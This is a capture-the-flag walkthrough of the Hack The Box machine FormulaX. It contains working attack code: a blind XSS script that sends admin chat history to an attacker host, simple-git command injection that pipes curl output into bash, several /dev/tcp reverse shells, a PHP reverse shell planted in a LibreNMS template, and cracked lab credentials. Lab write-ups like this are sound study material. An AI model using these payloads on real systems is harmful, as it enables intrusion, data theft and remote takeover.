

# [FormulaX](https://app.hackthebox.com/machines/FormulaX)

```bash
nmap -p- --min-rate 10000 10.10.11.6 -Pn
```


After detection of open ports, let's do greater nmap scan for these ports.

```bash
nmap -A -sC -sV -p22,80 10.10.11.6 -Pn
```


While I open web application, there's page which I need to make registration and login.


Then I find `Contact` page which I can submit user input data. I submit `Blind XSS` payload here and it works.


```bash

```


I can see my http.server's logs for this website.


As I know that this is `Chatbot` application, there can be some information leakage while interacting with admin.


So that's why, I wrote below malicious javascript for my xss to be triggered by admin user's browser.
```javascript
const script= document.createElement('script');
script.src='/socket.io/socket.io.js';
document.head.appendChild(script);
script.addEventListener('load',function(){
    const res=axios.get(`/user/api/chat`);
    const socket=io('/',{withCredentials:true});
    socket.on('message',(my_message) => {
        fetch("http://10.10.14.4:8080/?d="+btoa(my_message))
    });
    socket.emit('client_message','history');
});
```


Then, we need to open http.server to serve this file.
```bash
python3 -m http.server --bind 10.10.14.4 8080
```


Let's submit our XSS payload.
```bash

```


Let's decode this messages via `base64`.


So, we need to add `dev-git-auto-update.chatbot.htb` domain name into `/etc/hosts` file for resolving purposes.


Once I open web application, I see below stuff.


On bottom side of web page, I see `simple-git v3.14`, let's look at publicly known exploits.

I find [CVE-2022-25912](https://security.snyk.io/vuln/SNYK-JS-SIMPLEGIT-3112221). Let's use this for our payload.


I submit below blind `Command Injection`payload to check  `RCE`.
```bash
ext::sh -c curl% http://10.10.14.4:8080/dr4ks
```


I can see on my http.server's logs that worked or not.


Let's change this endpoint via `reverse shell` payload and get shell.

My reverse shell bash script is below.
```bash
/bin/sh -i >& /dev/tcp/10.10.14.4/1337 0>&1
```


```bash
ext::sh -c curl% http://10.10.14.4:8080/dr4ks.sh|bash
```


Hola, I got reverse shell from port `1337`.


Let's make interactive shell.
```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
Ctrl+Z
stty raw -echo;fg
export TERM=xterm
export SHELL=bash
```


While running `netstat -ntpl`, I see `27017` means `Mongo` database and type `mongo` to terminal for accessing.


I take user's hash and try to crack with `hashcat`.
```bash
hashcat -m 3200 hash.txt --wordlist /usr/share/wordlists/rockyou.txt
```


frank_dorky:manchesterunited


Let's do `ssh` into machine via this credentials.
```bash
ssh frank_dorky@10.10.11.6
```


user.txt


For `Privilege Escalation`, I just run `netstat -ntpl` to find another services, I found one service for port `3000`.


Let's do `Local Port Forwarding` to see this application.
```bash
ssh -L 3000:localhost:3000 frank_dorky@10.10.11.6
```

I opened web application and see below stuff.


I find such an [blog](https://community.librenms.org/t/adding-admin-users-on-librenms/20782) to add `admin` user.

Let's do this on `/opt/librenms` directory.


But there I have problem about `resolving`, I need to add this record to my `/etc/hosts` file.


I switched into `Alert Templates` and see some stuff here I will add my malicious php reverse shell code.

```bash
@php
system("{revshell_payload}");
@endphp
```




While clicking `create template`, I get reverse shell from port `1337`.


Again, make interactive shell.


I read `.custom.env` file and finds sensitive credentials.


kai_relay: mychemicalformulaX


I used this credentials to login into machine. For `Privilege Escalation`, I just run `sudo -l` command to check privleges.


I find [exploit](https://www.exploit-db.com/exploits/46544), let's use this.

I change last line `calc.exe` with `/tmp/shell.sh`

```bash
#!/bin/bash
sh -i >& /dev/tcp/10.10.14.4/1337 0>&1
```


Next we need to run this script.
```bash
sudo /usr/bin/office.sh  # to open port 2002
```

Then run our exploit against target.
```bash
python3 exploit.py --host 127.0.0.1 --port 2002
```

My `/tmp/shell.sh` file is executed, that's why I get reverse shell from port `1337`.

root.txt


